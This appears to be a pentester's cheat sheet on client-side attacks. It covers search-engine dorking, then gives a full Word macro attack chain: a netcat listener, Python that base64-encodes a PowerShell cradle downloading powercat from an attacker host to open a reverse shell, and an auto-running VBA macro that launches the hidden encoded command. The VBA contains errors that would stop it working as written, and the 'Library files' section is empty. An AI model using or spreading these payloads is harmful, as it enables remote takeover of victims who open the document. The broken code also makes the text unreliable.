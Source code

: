 # Client-side attacks

## Dorking

Passive: `site:www.site-to-hack.com filetype:pdf`
Gobuster: `gobuster dir -x pdf -u $TargetIp -w /usr/share/wordlist/dirb/commont.txt`
Exiftool: `exiftool -a -u somefile.pdf`

## Macros

### Word

Start a listener:
```
kali$ nc -lnvp $AttackerPort
```
base64 encode a PowerShell reverse shell, or a download cradle for [PowerCat](https://github.com/besimorhino/powercat):
```
import base64

text = "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp/powercat.ps1');powercat -c $AttackerIp -p $AttackerPort -e powershell"

payload = base64.b64encode(bytes(text, 'utf-16-le')).decode('utf-8') # WARNING: Windows uses UTF-16-LE encoding...

print("PowerCat cradle:", text)
print("Payload, base64 utf-16-le encoded:", payload)

n = 50 

print("Str = \"powershell.exe -nop -w hidden -e \"")
for i in range(0, len(payload), n):
    print("Str = Str + " + '"' + payload[i:i+n] + '"')
```
start an http server:
```
kali$ python3 -m http.server 80
```
and embed it in Word macro:
```
Sub AutoOpen()
  MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro()
  Dim Str As String
  Str = "powershell.exe -nop -w hidden -enc"
  Str += Str + "some"
  Str += Str + "long"
  Str += Str + "base64"
  Str += Str + "utf-16-le"
  Str += Str + "string"
  CreateObject("Wscript.Shell").Run "Str"
End Sub
```

### Library files

```

```
